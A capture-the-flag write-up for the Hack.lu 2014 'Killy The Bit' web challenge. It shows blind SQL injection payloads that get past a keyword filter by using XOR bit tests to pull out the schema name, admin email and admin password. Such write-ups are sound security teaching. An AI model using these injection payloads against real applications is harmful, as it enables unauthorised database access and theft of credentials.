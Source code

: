## Hack.lu CTF 2014 - Killy The Bit (Web 200)
##### 21-23/10/2014 (48hr)
___

### Description: 
Killy the Bit is one of the dangerous kittens of the wild west. He already flip-
ped bits in most of the states and recently hacked the Royal Bank of Fluxembourg. 
All customer of the bank are now advised to change their password for the next 
release of the bank's website which will be launched on the 23.10.2014 10:01 CEST. 

Killy the Bit stands in your debt and sent the following link. Can you break the 
password generation process in order to get access to the admin account?	

___
### Solution

The source code reveals that this is an Blind SQL injection. The filters are: sleep, 
benchmark, and, or, |, &. However things can become more difficult because we can't use
names like ORD() (contains 'or'), or INFROMATION_SCHEMA.tables (contais 'or' too). Let's
try to craft 2 valid sql injection statements:

First we create a statement that returns TRUE:
```
	SELECT name,email 
	FROM user 
	WHERE name=' UNION ALL SELECT name, email FROM user WHERE 1=1--  
```
	
The page that returned to user, contains the following response: "A new password was 
generated and sent to your email address!". Now let's create the FALSE statement:
```
	SELECT name,email 
	FROM user 
	WHERE name=' UNION ALL SELECT name, email FROM user WHERE 1=0--  
```

The page that reuturned contains this time the message: "We couldn't find your username!
Are you sure it is ' UNION ALL SELECT name, email FROM user WHERE 1=0-- ?"

Awesome! Now we have a way to extract data from the database. We can extract 1 bit of 
information at a time. The classic way to do this is by reading a character and getting 
the value of each bit (we need 8 requests for each character). In order to do this we
need the & operator:
```
	if( character & 128 == 0 ) 1st bit = 0. else 1st bit = 1
	if( character & 64  == 0 ) 2nd bit = 0. else 2nd bit = 1
	.... and so on.
```
	
The other way is to do a binary search (< and > are allowed), but we'll do something 
different: & and | are not allowed, but XOR is allowed: ^

So, how we can check the value of a specified bit using XOR? Consider a number x. Then:
```
	if( x^128 > x ) then 1st bit = 0 else 1st bit = 1
	if( x^64  > x ) then 2nd bit = 0 else 2nd bit = 1
	.... and so on.
```
	
But why this is right? If MSBit of x is 1 then by XORing it with 128=1000000(2) we'll flip
the MSBit. If the bit was 0 then by flipping it the result will be greater that the initial
number. But if the bit was 1, after flipping will be 0, and the result will be smaller than
the initial value.
Now, let's start by finding the database name. The query we insert is:
```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR(SCHEMA(),$_i_$,1))>
		     (ASCII(SUBSTR(SCHEMA(),$_i_$,1))^$_mask_$)--+	
	&submit=Generate#
```
	
Where the variable $_i_$ gets the values 1,2,3... and the variable $_mask_$ the values 128,
64,32,16,8,4,2 and 1. After executing the script (see below) we can get the database name:
```
	ctf-level
```
	
Now let's get admin's email. The query is:
```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR((SELECT email FROM user WHERE name='admin'),$_i_$,1))>
		     (ASCII(SUBSTR((SELECT email FROM user WHERE name='admin'),$_i_$,1))^$_mask_$)--+
	&submit=Generate#
```

After many requests, we get the admin's email: admin@bankoffluxembourg.com
But we want admin's password. We have a table, and it has 2 columns "name" and "email". It's very
like to has a column for the password. Let's try common names for password columns: "pass", "pw", 
"passwd", "password" (cannot be used -> contains 'or'). We find that the correct column name is
"passwd". Now let's get the admin's password:

```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR((SELECT passwd FROM user WHERE name='admin'),$_i_$,1))>
		     (ASCII(SUBSTR((SELECT passwd FROM user WHERE name='admin'),$_i_$,1))^$_mask_$)--+
		&submit=Generate#
```

After many requests, we get the flag: **flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}**.


___
After getting the flag, the authors post the following hints:
Hint: Blind SQLi is not a good solution. You can get the correct and complete flag with one single request!
Hint: The password's column name is 'passwd'.

:(

___